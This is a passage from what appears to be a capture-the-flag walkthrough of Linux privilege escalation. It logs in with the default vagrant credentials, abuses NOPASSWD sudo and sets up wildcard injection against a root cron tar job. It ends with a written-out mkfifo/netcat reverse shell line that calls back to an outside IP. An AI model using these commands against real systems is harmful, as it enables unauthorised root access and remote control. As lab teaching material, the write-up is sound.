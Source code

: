 We have a crontab running as root. Let's check what the backup.sh script contains

```bash
#!/bin/sh 
cd /home/james/
tar czf /tmp/backup.tar.gz *

```
It looks like the script attempts to create a tar backup of all the contents of `/home/james/` to a file named `backup.tar.gz`  within the `/tmp` directory.

The script could be vulnerable to a `WildCard Injection[]`(https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) Attack which is a technique of privilege escalation. But to perform this attack, we need to be able to write within the `/home/james` directory but we cannot. 

Let's check what more users we have on the system :

```
ubuntu
vagrant
```

The `vagrant` user often has the password `vagrant` if not changed. Let's see if we can login as `vagrant` using the password `vagrant`
```bash
su vagrant
password: vagrant
vagrant@ubuntu-xenial:/home$
```
There we go, we are now logged in as the vagrant user.

Let's check what commands  we can run as sudo :
```bash
sudo -l
```

Output:
```bash
(ALL) NOPASSWD: ALL
```

We can execute any command as any user without authentication.

Here, we can simply run the following command to get root :
```bash
sudo -u root bash
```
But that would be no fun.  Let's escalate our privileges the hard way cause that's what 1337 hax0rs do!!! 😉

Let's spawn a shell as the `james` user :
```bash
sudo -u james bash
```

### WildCard Injection :

Done. Now let's make a `shell.sh` file and put in the following reverse shell in it : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.184 9001 >/tmp/f
```

